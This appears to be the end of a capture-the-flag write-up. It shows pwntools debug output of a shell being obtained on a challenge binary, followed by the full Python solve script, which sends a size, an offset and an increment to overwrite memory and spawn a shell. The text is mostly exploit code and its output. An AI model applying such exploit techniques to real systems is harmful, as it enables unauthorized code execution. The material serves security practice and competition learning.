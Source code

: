 ```
[DEBUG] Sent 0x8 bytes:
    b'2924656\n'
[DEBUG] Received 0xe bytes:
    b'increment? \n'
    b'> '
[DEBUG] Sent 0x8 bytes:
    b'-528289\n'
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x51 bytes:
    b'chal\tchal_patched  ld-linux-x86-64.so.2  solve.py\n'
    b'chal.c\tDockerfile    libc.so.6\n'
chal	chal_patched  ld-linux-x86-64.so.2  solve.py
chal.c	Dockerfile    libc.so.6
$
```

Profit!!

### Full solve script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.log_level = 'debug'
context.terminal = 'kitty'

p = process()
# gdb.attach(p)
# p = remote('chal2.sieberr.live', 15007)

# As easy as a + b + c = shell!
p.sendlineafter(b'size? \n> ', b'1000000')
p.sendlineafter(b'offset? \n> ', str(0x2ca070).encode())
p.sendlineafter(b'increment? \n> ', str(-0x80fa1).encode())

p.interactive()
```
